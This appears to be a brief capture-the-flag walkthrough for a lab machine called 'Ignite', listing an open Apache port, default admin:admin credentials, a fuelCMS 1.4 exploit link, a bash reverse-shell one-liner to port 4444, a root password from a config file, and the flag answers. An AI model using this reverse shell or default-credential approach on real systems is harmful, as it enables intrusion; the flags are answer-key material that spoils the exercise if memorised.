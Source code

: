 # Ignite

### IP Address
```
10.10.235.13
```

### Ports

port | type | state | service | version
-----|------|-------|---------|--------
80 | open | tcp | http | Apache httpd 2.4.18 ((Ubuntu))
 

website running robots.txt file found with disallowed entry **/fuel/**

### Credentials found

>admin:admin

Website running on **fuelCMS v1.4**
Exploited **fuelCMS v1.4** using [exploit](https://www.exploit-db.com/exploits/47138)

created reverse shell connection using nc command

> bash -i >& /dev/tcp/10.10.235.13/4444 0>&1

### Questions
flag found in **/home** directory

>6470e394cbf6dab6a91682cc8585059b

credential for root user found in ```fuel/application/config/database.php```
>root:mememe

root flag found in **/root/root.txt**
>b9bbcb33e11b80be759c4e844862482d
